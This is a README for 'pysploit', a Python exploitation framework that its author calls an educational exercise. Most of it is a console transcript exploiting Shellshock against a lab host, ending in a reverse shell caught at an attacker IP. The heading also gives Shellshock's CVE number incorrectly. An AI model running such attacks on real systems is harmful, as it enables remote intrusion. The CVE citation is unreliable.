 # pysploit

This is a metasploit-like framework for system exploitation and penetration 
testing written in python. It is a work in progress and is an educational 
exercise for me so I learn how things actually work and stop being such a skid.

### Example of exploitation of the shellshock vulnerability (CVE-2014-6071)

```
[+]	New session created
pysploit> exploit load shellshock
exploit (shellshock)> exploit options
[~]	Exploit options	[~]
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		None
victim_port             |		None
attacker_ip             |		None
attacker_port           |		None
cgi_path                |		None
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
exploit (shellshock)> exploit set victim_ip 192.168.56.101
exploit (shellshock)> exploit set victim_port 80
exploit (shellshock)> exploit set attacker_ip 192.168.56.102
exploit (shellshock)> exploit set attacker_port 4444
exploit (shellshock)> exploit set cgi_path /cgi-bin/status
exploit (shellshock)> exploit set payload None
exploit (shellshock)> exploit options
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		192.168.56.101
victim_port             |		80
attacker_ip             |		192.168.56.102
attacker_port           |		4444
cgi_path                |		/cgi-bin/status
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
exploit (shellshock)> exploit run
[*]	Checking for vulnerability
	[*]	Injecting with test nonce 13b64e57dbff4e63b412d40f02ecc933
	[+]	Received vulnerable output from target!
	[+]	Target 192.168.56.101 is vulnerable to shellshock
[*]	Running exploit for shellshock on 192.168.56.101
	[*]	Shell injection sent (reverse catch at 192.168.56.102:4444)
	[+] Shell caught by listener!
[+]	Exploitation completed!
exploit (shellshock)>
```

And on our listening machine...

![We have a catch](https://github.com/spencerdodd/pysploit/blob/master/imgs/example-catch.png "catch img")

As easy as that!

### =-=-=-= To Do =-=-=-=

* Build network module for the framework to handle file-dropping, multi-stage payload uploading, shell-hand
ling, etc.

* Create some payloads / payload execution frameworks (based off of network module interactions)

* Potentially migrate exploitation into Twisted protocols that are created by the exploits (?)
